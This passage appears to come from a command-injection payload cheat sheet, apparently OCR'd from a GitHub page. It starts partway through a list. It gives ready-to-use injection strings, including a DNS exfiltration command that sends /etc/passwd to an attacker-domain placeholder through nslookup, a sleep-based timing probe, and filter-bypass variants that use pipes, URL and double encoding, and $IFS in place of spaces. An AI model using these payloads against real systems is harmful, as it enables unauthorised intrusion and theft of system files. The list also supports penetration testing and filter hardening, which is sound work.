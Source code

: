 ### 4. DNS Exfiltration (Blind Command Injection)

* Exfiltrate sensitive data via DNS queries:

```
127.0.0.1; nslookup $(cat /etc/passwd) <attacker_domain>
```

### 5. Timing-Based Attack

* Use a timing delay to detect blind command injection:

```
127.0.0.1; sleep 10
```

## Bypassing Defenses

Command Injection defenses can often be bypassed with various techniques:

### 1. Input Obfuscation

* Obfuscate the payload using alternative metacharacters:

```
127.0.0.1 | cat /etc/passwd
```

### 2. Encoding Special Characters

* Use URL encoding to bypass input filters:

```
127.0.0.1%3Bcat%20/etc/passwd
```

### 3. Whitespace Manipulation

* Use special characters or environment variables instead of spaces:

```
127.0.0.1;cat$IFS/etc/passwd
```

### 4. Use of Environment Variables

* Use environment variables like `$PATH` to execute commands:

```
127.0.0.1; echo $PATH
```

### 5. Double Encoding

* Use double URL encoding to bypass input filters:

```
127.0.0.1%253Bcat%2520/etc/passwd
```
